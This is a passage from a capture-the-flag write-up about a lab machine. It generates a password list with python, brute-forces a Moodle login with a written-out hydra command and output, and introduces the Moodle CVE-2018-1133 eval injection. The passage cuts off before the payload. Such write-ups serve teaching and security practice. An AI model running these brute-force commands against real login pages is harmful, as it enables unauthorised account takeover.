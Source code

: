 ### Brute Force Giovanni

From the note I know all but the last character of the password to log into
something. I’m going to guess/hope that’s Moodle. I’ll use `python` to
generate passwords:

    
    
    root@kali# python3 -c 'import string; print("\n".join([f"Th4C00lTheacha{c}" for c in string.printable[:-5]]))' > passwords
    

For those not familiar with the python list comprehension syntax, here’s what
that one-liner is doing:

  * First I import the string library.
  * `[f"Th4C00lTheacha{c}" for c in string.printable[:-5]]` creates an array. To do so, it will loop over the elements of `string.printable` (technically all but the last 5 which I’ve left off with `[:-5]`). For each element, it will add `f"Th4C00lTheacha{c}"` to the array, where `c` is the element. This is the python f-string format, so `{c}` is just replaced with the variable value.
  * Now with an array of the password with lots of different last characters, I’ll pass that to `'\n'.join(array)`, which builds a string by combining all the elements with `\n`.
  * That is printed and redirected to a file, `passwords`.

Now I’ll use `hydra` to try them and find the password:

    
    
    root@kali# hydra -l Giovanni -P passwords 10.10.10.153 http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login"                 
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.                                                                                            
    
    Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-04 11:16:47
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 95 login tries (l:1/p:95), ~6 tries per task
    [DATA] attacking http-post-form://10.10.10.153:80//moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login                                                                         
    [80][http-post-form] host: 10.10.10.153   login: Giovanni   password: Th4C00lTheacha#
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2018-12-04 11:17:24
    

### RCE in moodle

#### Background

[CVE-2018-1133](https://blog.ripstech.com/2018/moodle-remote-code-execution/)
was a vulnerability that allows any user in the teacher role to get remote
code execution through Moodle. The vulnerability is in the part of the code
that allows a teacher to define a problem like “What is {x} + {y}?”, and have
different x and y for each student. Moodle picks a random x and y, and then
gets the answer by calling php’s `eval()` on the formula input. So if I can
poison the input, I can get it to run my code. The
[post](https://blog.ripstech.com/2018/moodle-remote-code-execution/) gives the
following string that will give execution and bypass filters:

    